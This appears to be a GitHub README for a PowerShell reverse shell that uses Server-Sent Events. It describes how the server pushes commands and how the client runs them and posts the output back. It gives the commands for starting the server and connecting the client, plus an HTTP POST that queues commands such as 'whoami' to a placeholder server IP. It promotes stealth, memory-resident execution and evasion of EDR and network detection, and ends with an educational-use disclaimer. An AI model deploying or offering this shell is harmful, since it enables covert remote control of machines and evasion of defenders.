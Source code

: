 # SSE Reverse Shell – The Quiet Shell No One Saw Coming

This project demonstrates a stealthy reverse shell built using native PowerShell and Server-Sent Events (SSE) — a simple HTTP-based protocol that pushes messages from server to client over a single persistent connection.

Unlike traditional reverse shells that rely on polling, sockets, or external binaries, this one uses only:

- Native PowerShell
- A single GET request
- text/event-stream over HTTP
- Memory-resident execution with minimal noise

## Components

### Start-SseServer.ps1
The SSE server:
- Listens on a specified port using raw TCP
- Pushes commands to clients via SSE
- Receives command output via HTTP POST (/post endpoint)
- Optional interactive terminal or headless mode

### Start-SseClient.ps1
The SSE client:
- Connects to the server’s /sse endpoint
- Receives commands via SSE stream
- Executes them locally and posts results back

## Usage

### Server (interactive terminal):
```
. .\Start-SseServer.ps1
Start-SseServer -Port 8080
```

### Server (headless mode):
```
Start-SseServer -Port 8080 -Headless
```
#### On a 3rd Endpoint:
```
(iwr http://<SSE_Server_IP_Address>:8080/command -Method POST -Body "whoami" -ContentType "text/plain" -UseBasicParsing).Content
```

### Client:
```
. .\Start-SseClient.ps1
Start-SseClient -Uri "http://<server-ip>:8080"
```

## Features
- Fully memory-resident execution
- No need for raw sockets or polling loops
- Can bypass basic EDR/network detections
- Minimalist, stealthy, and flexible

## Screenshots


## Disclaimer

This tool is for educational and research purposes only.
Do not use this on networks or systems you do not own or have explicit permission to test.

## License

MIT License  
Author: TNCX-byte
